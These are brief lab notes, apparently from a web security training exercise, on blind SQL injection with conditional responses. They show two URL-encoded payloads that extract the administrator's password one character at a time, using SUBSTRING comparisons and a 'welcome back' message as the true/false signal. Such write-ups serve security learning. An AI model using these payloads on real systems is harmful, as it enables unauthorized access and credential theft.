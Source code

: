 ```yaml
---
title: Lab 1 - blind SQL injection with conditional respo...
updated: 2023-06-21T15:21:26.0000000+01:00
created: 2023-06-12T09:36:15.0000000+01:00
---
```


![image1](../../../../_resources/image1-17.png)

We use blind SQL queries to figure out the password of the admin user character by character, for example:
![image2](../../../../_resources/image2-16.png)

***xyz'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)\>'m***

The page displays "welcome back" if the query returns any rows:
![image3](../../../../_resources/image3-12.png)

We can check using greater than and lower than symbols, finally, we can check a character by using the equals:

***xyz'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='s***
![image4](../../../../_resources/image4-8.png)

